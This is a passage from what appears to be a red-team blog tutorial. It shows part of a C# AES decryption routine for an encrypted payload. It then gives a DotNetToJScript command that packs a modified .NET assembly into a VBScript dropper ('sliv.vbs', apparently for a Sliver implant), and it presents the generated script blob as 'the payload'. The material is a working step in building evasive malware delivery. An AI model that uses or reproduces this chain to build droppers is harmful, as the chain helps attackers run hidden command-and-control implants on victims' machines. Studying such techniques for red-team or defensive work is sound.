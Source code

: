```cs
            aesAlg.IV = IV;
            aesAlg.Padding = PaddingMode.None;

            ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

            using (MemoryStream memoryStream = new MemoryStream(ciphertext))
            {
                using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                {
                    cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                    return memoryStream.ToArray();
                } 
            }
        }
    }
}
```

Now we can build as a release the two binaries. The most important is the _DotNetToJScript.exe_ and _ExampleAssembly.dll_. In essence, now we need to generate the VBScript that is used later for the execution. We are specifying that we want that _ExampleAssembly_ will be the assembly that we want to use as the payload. Then we need a VBscript so we choose that. Also for the .NET version, we need to use the _v2_ one. I tried with the v4 but had no success. The Class of our modified Example is LetsDoit and finally, the output will be sliv.vbs.

```
.\DotNetToJScript.exe ExampleAssembly.dll -l vbscript -v v2 -c LetsDoit -o sliv.vbs
```

The payload will look something like this:
<img src="/images/2024-06-27-imgs/4-vbscript-blob.png" alt="">